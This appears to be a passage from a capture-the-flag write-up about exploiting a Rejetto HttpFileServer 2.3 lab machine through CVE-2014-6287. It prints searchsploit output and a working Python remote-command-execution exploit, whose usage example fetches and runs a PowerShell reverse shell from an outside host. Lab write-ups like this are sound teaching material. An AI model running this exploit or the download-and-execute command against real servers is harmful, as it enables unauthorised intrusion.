 I tried some basic cred guessing, but no luck.

#### Vulnerabilities

The bottom of the page gives the exact version of HFS running, 2.3.
`searchsploit` has a bug for this version:



    oxdf@parrot$ searchsploit httpfileserver
    ---------------------------------------------- ---------------------------------
     Exploit Title                                |  Path
    ---------------------------------------------- ---------------------------------
    Rejetto HttpFileServer 2.3.x - Remote Command | windows/webapps/49125.py
    ---------------------------------------------- ---------------------------------
    Shellcodes: No Results



This vulnerability is know as
[CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287).

## Shell as kostas

### Exploit Analysis

Using `searchsploit -x windows/webapps/49125.py` to look at the exploit,
it's incredibly straight forward:



    #!/usr/bin/python3

    # Usage :  python3 Exploit.py <RHOST> <Target RPORT> <Command>
    # Example: python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"

    import urllib3
    import sys
    import urllib.parse

    try:
            http = urllib3.PoolManager()    
            url = f'http://{sys.argv[1]}:{sys.argv[2]}/?search=%00{{.+exec|{urllib.parse.quote(sys.argv[3])}.}}'
            print(url)
            response = http.request('GET', url)
            
    except Exception as ex:
            print("Usage: python3 HttpFileServer_2.3.x_rce.py RHOST RPORT command")
            print(ex)
